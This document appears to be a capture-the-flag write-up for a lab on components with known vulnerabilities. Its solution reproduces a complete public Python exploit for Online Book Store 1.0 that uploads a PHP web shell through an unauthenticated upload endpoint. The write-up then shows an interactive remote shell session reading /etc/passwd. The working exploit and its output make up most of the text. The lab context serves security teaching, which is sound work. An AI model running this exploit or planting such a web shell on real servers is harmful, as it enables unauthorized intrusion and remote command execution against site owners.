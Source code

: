# Components with Known Vulnerabilities

**Date:** 03, January, 2021

**Author:** Dhilip Sanjay S

---

- Company/Entity that you're pen-testing is using a program that already has a well documented vulnerability.
- For example, a company hasn't updated their version of Wordpress for a few years - you can used tools like **wpscan** to find its version.
- You can even find better exploit for RCE on [Exploit-db](https://www.exploit-db.com/exploits/41962).

---
## Solutions

### How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)
- **Answer:** 1611
- **Steps to Reproduce:** 
    - Find an exploit for the book store application.
    - Search for `book store` in exploit-db. Look for `Remote Code Execution`.
    - Execute the payload as instructed.
    - [Online Bookstore - Unauthenticated RCE](https://www.exploit-db.com/exploits/47887)
    - Exploit code:
    ```python
    # Exploit Title: Online Book Store 1.0 - Unauthenticated Remote Code Execution
    # Google Dork: N/A
    # Date: 2020-01-07
    # Exploit Author: Tib3rius
    # Vendor Homepage: https://projectworlds.in/free-projects/php-projects/online-book-store-project-in-php/
    # Software Link: https://github.com/projectworlds32/online-book-store-project-in-php/archive/master.zip
    # Version: 1.0
    # Tested on: Ubuntu 16.04
    # CVE: N/A

    import argparse
    import random
    import requests
    import string
    import sys

    parser = argparse.ArgumentParser()
    parser.add_argument('url', action='store', help='The URL of the target.')
    args = parser.parse_args()

    url = args.url.rstrip('/')
    random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))

    payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'

    file = {'image': (random_file + '.php', payload, 'text/php')}
    print('> Attempting to upload PHP web shell...')
    r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
    print('> Verifying shell upload...')
    r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)

    if random_file in r.text:
        print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
        print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
        launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
        if launch_shell.lower() == 'y':
            while True:
                cmd = str(input('RCE $ '))
                if cmd == 'exit':
                    sys.exit(0)
                r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
                print(r.text)
    else:
        if r.status_code == 200:
            print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php, however a simple command check failed to execute. Perhaps shell_exec is disabled? Try changing the payload.')
        else:
            print('> Web shell failed to upload! The web server may not have write permissions.')
            
    ```
    
    - Execution of the exploit code:
    ```bash
    root@kali: python3 bookstore-rce.py http://<MACHINE_IP>
    > Attempting to upload PHP web shell...
    > Verifying shell upload...
    > Web shell uploaded to http://<MACHINE_IP>/bootstrap/img/NnwsQGewOj.php
    > Example command usage: http://<MACHINE_IP>/bootstrap/img/NnwsQGewOj.php?cmd=whoami
    > Do you wish to launch a shell here? (y/n): y

    RCE $ wc -c /etc/passwd
    1611 /etc/passwd
    ```

---